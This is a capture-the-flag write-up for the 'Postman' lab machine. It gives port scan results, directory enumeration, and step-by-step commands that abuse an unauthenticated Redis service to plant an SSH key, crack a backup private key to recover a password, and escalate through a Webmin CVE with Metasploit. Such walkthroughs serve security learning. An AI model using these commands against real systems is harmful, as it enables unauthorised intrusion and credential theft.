


> OS Ubuntu - Difficulty: Easy

| Port  | Service | Information   |
| ----- | ------- | ------------- |
| 22    | SSH     |               |
| 80    | http    | Apache 2.4.29 |
| 6379  | REDIS   | 4.0.9         |
| 10000 | http    | Webmin        |
# Enumeration
```bash
gobuster dir -u http://10.129.2.1/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-small.txt

	/images               (Status: 301) [Size: 309] [--> http://10.129.2.1/images/] 
	/upload               (Status: 301) [Size: 309] [--> http://10.129.2.1/upload/]
	/css                  (Status: 301) [Size: 306] [--> http://10.129.2.1/css/]                     
	/js                   (Status: 301) [Size: 305] [--> http://10.129.2.1/js/]                      
	/fonts
-> Directory listing /upload/
```
# Exploitation
## Redis - Shell as user
```bash
# Enum redis config
redis-cli -h 10.129.2.1
	>  flushall
	>  config get dir
	> 	 -> /var/lib/redis
	> config set dir ./.ssh	 
cat key.txt| redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
	> config set dbfilename "authorized_keys"
	> save
ssh -i id_rsa_redis redis@10.129.2.1
redis@Postman:~$
```
# Post-Exploitation
## SSH as Redis to Matt
```bash
redis@Postman:~$ cat /etc/passwd | grep 'sh$'                                                    
root:x:0:0:root:/root:/bin/bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
# BASIC enumeration
cd /opt -> id_rsa.bak
# then ssh2john -> hashcat -> computer2008
hashcat --user hashes/id_rsa.bak.hashes rockyou.txt
-> computer2008
# Matt user can't connect with SSH -> REDIS Shell -> su Matt -> computer2008 -> Shell as MATT
su Matt
> computer2008
```
## Matt to Webmin to root
1. We can connect to webmin interface with matt creds
2. Then exploit this Codes: CVE-2019-12840 using MSF



